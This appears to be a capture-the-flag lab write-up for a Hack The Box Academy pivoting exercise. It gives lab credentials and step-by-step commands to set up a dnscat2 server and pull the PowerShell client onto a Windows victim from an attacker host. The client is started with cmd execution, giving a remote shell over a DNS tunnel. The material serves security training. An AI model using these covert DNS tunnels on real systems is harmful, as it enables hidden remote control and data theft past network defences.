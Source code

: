 Results: Jim Flipflop

### Branching Out Our Tunn

RDP to 10.129.42.198 (ACADEMY-PIVOTING-WIN10PIV) with user "htb-student" and password "HTB_@cademy_stdnt!". Using the concepts taught in this section, connect to the target and establish a DNS Tunnel that provides a shell session. Submit the contents of C:\Users\htb-student\Documents\flag.txt as the answer.

```
# In the kali attacker machine with ip $ip:
##################################
# Install the DNScat server
git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install

# Launch the server
sudo ruby dnscat2.rb --dns host=$ipAttackerMachine,port=53,domain=inlanefreight.local --no-cache

# See the response after launching the server. The dns server will generate a secret that we will use from the victim machine to connect

# Now, we need the client connection. As our targetted machine is Windows we download the powershell client dnscat2 to our kali
git clone https://github.com/lukebaggett/dnscat2-powershell.git

# Then, copy the dnscat2.ps1 file to the windows victim machine. For that use any of the file transfer techniques. In this case I initiated a http server from the folder where dnscat2.ps1 was
python -m http.server 8000


# Additionally, I opened a RDP connection with the windows machine:
xfreerdp  /u:"htb-student" /p:"HTB_@cademy_stdnt\!" /v:$ip


###########################################
## From the windows machine. Open a powershell
################
# Download the dnscat2 powershell client:
curl http://$ipAttackerMachine:8000/dnscat2.ps1 > dnscat2.ps1

# Install
Import-Module .\dnscat2.ps1

# Initiate the connection
Start-Dnscat2 -DNSserver $ipAttackerMachine -Domain domain.local -PreSharedSecret $secret -Exec cmd 
# $secret is obtained from the server launched in the kali machne.

###########################################
## From the kali Attacker machine
################
# We will receive the message:
# New window created: 1
# Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

# Enter the session
window -i 1

# Retrieve the flag
```